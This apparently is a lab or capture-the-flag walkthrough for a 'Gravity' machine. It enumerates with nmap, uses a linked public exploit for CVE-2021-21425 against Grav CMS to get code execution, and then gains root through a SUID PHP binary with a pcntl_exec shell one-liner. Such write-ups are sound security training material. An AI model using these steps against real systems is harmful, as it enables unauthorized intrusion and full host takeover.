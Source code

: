 #Linux 
## Summary:

In this guide we will exploit an Unauthenticated Arbitrary YAML Write/Update in `Grav CMS` which leads to RCE to gain our initial foothold. In order to escalate privileges we will discover a vulnerable `PHP` SUID binary.

#Linux #GravCMS #suid_privesc 
## Enumeration:

We begin the enumeration process with an `nmap` scan.
```bash
┌──(root㉿kali)-[/home/kali/ugc/gravity]
└─# nmap -p22,80 -sC -sV -oA nmap/gravity 192.168.145.160
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-17 09:04 EDT
Nmap scan report for 192.168.145.160
Host is up (0.00077s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2:a9:43:8d:98:03:db:57:8c:be:9a:93:36:f9:34:13 (RSA)
|   256 70:2c:18:90:18:c0:a8:c5:7c:9b:a7:da:dc:7e:e9:32 (ECDSA)
|_  256 79:3d:a2:28:b8:dc:7b:0d:c4:53:ba:52:81:cc:ca:f8 (ED25519)
80/tcp open  http    Apache httpd 2.4.41
| http-ls: Volume 
| SIZE  TIME              FILENAME
| -     2021-03-17 17:46  grav-admin/
|_
|_http-title: Index of /
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

From the output of our scan we see `grav-admin/` on port `80`.
Navigating to port `80` we see a default installation of `Grav CMS` and view the admin endpoint.
Navigating to `grav-admin/admin` we see the following login page.

When testing default credentials we see that we have gained access to the admin login page.
We proceed by searching for unauthenticated Grav CMS exploits and as seen below, we see a few CVEs.
One of the google results leads us to the following exploit:
Reference: https://github.com/CsEnox/CVE-2021-21425/blob/main/exploit.py
We download the exploit to our attack machine using wget.

# Privilege Escalation

We search for any interesting SUID binaries and see `/usr/bin/php7.4` in the output.
Using `https://gtfobins.github.io/`, we see an entry for PHP and follow the listed steps in order to obtain root access.

```bash
www-data@gravity:~/html/grav-admin$ php -r "pcntl_exec('/bin/sh', ['-p']);"
# whoami
root
```